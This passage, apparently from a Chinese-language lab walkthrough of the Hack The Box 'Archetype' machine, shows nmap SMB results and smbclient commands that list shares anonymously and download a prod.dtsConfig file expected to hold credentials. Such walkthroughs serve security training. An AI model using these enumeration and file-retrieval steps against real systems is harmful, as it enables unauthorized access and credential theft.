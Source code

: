 ```txt
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-07T20:32:23-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-08T04:32:27
|_  start_date: N/A
```

发现目标机445端口（对应SMB协议）和1433端口（对应mssql）开放。

### 共享文件导致敏感信息泄露

文件共享经常会将敏感配置文件暴露出来，使用`smbclient`检查能否匿名登录以及查看共享的文件

发现backups目录

```sh
┌──(root💀kali)-[/]
└─# smbclient -N -L \\\\10.10.10.27\\    

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

目录下发现`prod.dtsConfig`，dtsconfig是SSIS服务的配置文件，通常包含敏感信息；SSIS是Microsoft SQL Server Integration Services的简称，是生成高性能数据集成解决方案（包括数据仓库的提取、转换和加载 (ETL) 包）的平台。

```sh
┌──(root💀kali)-[/]
└─# smbclient -N \\\\10.10.10.27\\backups  
Try "help" to get a list of possible commands.
smb: \> dir
  .                      D        0  Mon Jan 20 20:20:57 2020
  ..                     D        0  Mon Jan 20 20:20:57 2020
  prod.dtsConfig        AR      609  Mon Jan 20 20:23:02 2020

                10328063 blocks of size 4096. 8259462 blocks available
```

下载`prod.dtsConfig`

```sh
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```
